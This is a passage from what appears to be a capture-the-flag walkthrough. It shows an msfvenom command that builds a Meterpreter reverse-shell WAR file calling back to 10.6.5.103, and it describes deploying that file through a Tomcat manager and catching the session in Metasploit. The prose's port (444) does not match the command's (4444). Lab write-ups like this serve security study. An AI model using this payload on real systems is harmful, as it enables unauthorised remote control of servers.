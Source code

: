 `msfvenom -p java/meterpreter/reverse_tcp LHOST=10.6.5.103 LPORT=4444 -f war > shell.war`
- `-p java/meterpreter/reverse_tcp`: Staged Meterpreter payload
- `LHOST=10.6.5.103 LPORT=444`: IP/port combination for the reverse shell
- `-f war`: Output in a WAR file format

Once we deploy the WAR file through the Application Manager GUI, we can see and browse to /shell under the list of Applications.

![1234 war upload](/assets/img/posts/thm-toolsrus/1234-war-upload.jpg)

Since we are using a staged Meterpreter payload, we'll need to configure the handler module in Metasploit to send the stager payload which will generate a Meterpreter shell for us.

*I did try to use a shell reverse tcp payload but when the reverse connection occurred, the Java application would error out with an OutOfMemoryError.*

We'll configure the handler module with the accept parameters that we used to create the WAR payload. Once configured and running, we can click on /shell and see our second stage Meterpreter payload sent and a session opened up!
